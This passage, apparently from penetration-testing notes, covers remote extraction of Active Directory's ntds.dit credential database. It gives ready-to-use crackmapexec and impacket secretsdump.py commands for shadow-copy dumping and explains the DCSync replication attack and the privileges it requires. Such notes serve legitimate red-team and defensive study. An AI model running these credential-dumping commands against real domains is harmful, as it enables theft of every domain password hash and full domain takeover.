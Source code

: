 ### Remotely over the network

##### Remote Volume Shadow Copy

The `vssadmin` utility can be executed remotely, over the `SMB`, `WMI` or
`DCOM` protocols, in order to export the `ntds.dit`. As implemented in
`impacket`'s `secretsdump.py` Python script, the `ntds.dit` database file is
exported in a temporary folder and parsed remotely. `CrackMapExec` wraps around
the methods from `secretsdump.py`.

```
# Wrap around secretsdump.py
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds vss
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds vss

# The -dc-ip option may not be properly taken into account. If so, the domain name can be associated to an IP in the /etc/hosts (Linux) or C:\Windows\System32\drivers\etc\hosts (Windows) file.
# Additionally, a Domain Controller IP can be specified in the target string in place of the domain name.
# -exec-method: smbexec, wmiexec, or mmcexec (over the DCOM protocol).
secretsdump.py -dc-ip <DC_IP> -use-vss -just-dc-user "<krbtgt | USERNAME>" "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -dc-ip <DC_IP> -use-vss "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -use-vss [-exec <EXEC_METHOD>] "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
```

###### DCSync (DRSUAPI)

The `DCSync` attack consists in leveraging the Active Directory `DRSUAPI`
replication functions (part of the `Directory Replication Service (DRS)`
protocol) to remotely retrieve the specified Active Directory objects' sensible
information. The `DRSUAPI` functions are normally used by the
`Domain Controllers` to replicate the modifications made to AD objects and keep
the AD objects consistent across all the `Domain Controllers` of the forest.
The `DRSUAPI` replication functions are exposed on the network by the
`Microsoft Remote Procedure Call (MSRPC)` `DRSUAPI` interface on each `Domain
Controller`. Thus, contrary to the others methods explicated so far, no local
code execution on a `Domain Controller` is required to retrieve information
from the `ntds.dit` database.         

While multiples `DRSUAPI` intermediate functions are used in the replication
process, the `DSGetNCChanges` function implements the replication request.

The following privileges on the `domain root object` are necessary to make
replication requests through the `DRSUAPI`:
  - Replicating Directory Changes (`Ds-Replication-Get-Changes`,
    `ACE GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`)
  - Replicating Directory Changes All (`Ds-Replication-Get-Changes-All`,
    `ACE GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`)

Those privileges are, in a default Active Directory configuration, granted to
the `Domain Controllers`, `ENTERPRISE DOMAIN CONTROLLERS`, `Domain Admins`,
`Enterprise Admins` and `Administrators` domain groups. For more information on
how to retrieve, and potentially exploit, the privileges configured on the
`domain root object`, refer to the `[ActiveDirectory] ACL exploiting` note.
